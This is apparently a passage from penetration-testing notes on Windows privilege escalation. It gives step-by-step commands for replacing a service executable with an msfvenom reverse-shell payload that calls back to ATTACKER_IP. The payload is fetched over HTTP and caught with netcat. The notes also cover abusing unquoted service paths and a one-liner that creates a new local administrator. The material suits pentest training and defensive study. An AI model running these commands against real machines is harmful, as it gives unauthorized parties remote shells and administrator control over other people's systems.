 ```
icacls C:\PROGRA~2\SYSTEM~1\test.exe

EVERYONE: (I)(M)
```

4. Generate Payload
Using msfvenom create a payload and serve it from a python web server.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o payload.exe

# Start python server
python3 -m http.server
```

5. Pull the payload into Powershell
`wget http://ATTACKER_IP:8000/payload.exe -O payload.exe`

6. Replace the service executable
```sh
cd C:\PROGRA~2\SYSTEM~1\
cd C:\PROGRA~2\SYSTEM~1> move oldservice.exe oldservice.exe.bak
cd C:\PROGRA~2\SYSTEM~1> move payload.exe oldservice.exe
icacls payload.exe /grant Everyone:F
```

7. Reverse Listener
```sh
nc -lvp 4445
```

8. Restart Service
In a typical scenario you will likely not have the permission to restat the service.

```sh
sc stop servicename
sc start servicename
```

## UnQuoted Service Paths
Similar to an XSS vulnerability we can force a service to run by abusing improperly quoted paths.

```sh
"C:\Super Service\test.exe"

C:\Super Service\test.exe
```

Windows will try to do some guessing. As an attacker knowing this, we can create our own service called "Super.exe" located in the `C:\` that will execute in place of the intended test.exe.

# Windows Privileges
Check user privilteges:
```sh
whoami /priv
```
## Create a new user and add to group
```sh
net user USERNAME PASSWORD /add & net localgroup administrators USERNAME /add
```
